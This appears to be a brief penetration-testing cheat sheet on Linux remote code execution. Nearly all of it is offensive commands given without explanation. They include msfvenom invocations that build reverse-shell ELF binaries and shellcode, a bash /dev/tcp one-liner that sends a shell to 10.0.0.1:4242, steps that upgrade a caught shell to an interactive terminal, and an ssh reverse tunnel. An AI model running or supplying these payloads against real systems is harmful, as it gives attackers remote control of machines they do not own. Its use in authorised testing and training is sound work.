 # Linux Remote Code Execution

## <a href='https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/' target="blank">MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)</a>

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">Reverse Shell Cheat Sheet</a>

### Check list

``` bash
msfvenom  --list encoders
```

### File

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

### Shell Code

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -v shellcode -f py
```

## Reverse Shell using bash

``` bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

## Upgrade shell

``` bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

stty raw -echo
fg
```

## <a href='https://www.ssh.com/ssh/tunneling/example' target="blank">Port Tunneling</a>

``` bash
ssh -R $myip:8080:127.0.0.1:8080 kali@$myip
```